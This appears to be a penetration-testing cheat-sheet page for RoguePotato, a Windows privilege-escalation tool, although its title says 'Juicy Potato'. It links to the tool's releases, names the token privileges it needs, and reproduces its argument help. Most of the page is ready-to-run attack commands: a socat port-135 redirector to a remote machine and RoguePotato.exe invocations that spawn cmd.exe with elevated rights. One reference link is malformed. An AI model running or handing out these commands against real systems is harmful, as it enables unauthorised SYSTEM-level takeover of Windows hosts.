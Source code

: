 # Juicy Potato

### Table of Contents
- [Download](#download)
- [How it works](#how-it-works)
- [Prerequisite Privileges needed](#prerequisite-privileges-needed)
- [Parameters](#parameters)
- [References](#references)

### Download
[Rogue Potato Releases](https://github.com/antonioCoco/RoguePotato/releases)

### How it works:
![The overall process of how this works](https://decoderblogblog.files.wordpress.com/2020/05/flow_graph_2.png)

### Prerequisite Privileges needed
`SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege`

### Parameters
**Get a list of CLSIDs here**: [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)

```
Mandatory args:
-r remote_ip: ip of the remote machine to use as redirector
-e commandline: commandline of the program to launch


Optional args:
-l listening_port: This will run the RogueOxidResolver locally on the specified port
-c {clsid}: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-p pipename_placeholder: placeholder to be used in the pipe name creation (default: RoguePotato)
-z : this flag will randomize the pipename_placeholder (don't use with -p)


Examples:
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

### References
- [https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/](https://https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)
- [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)


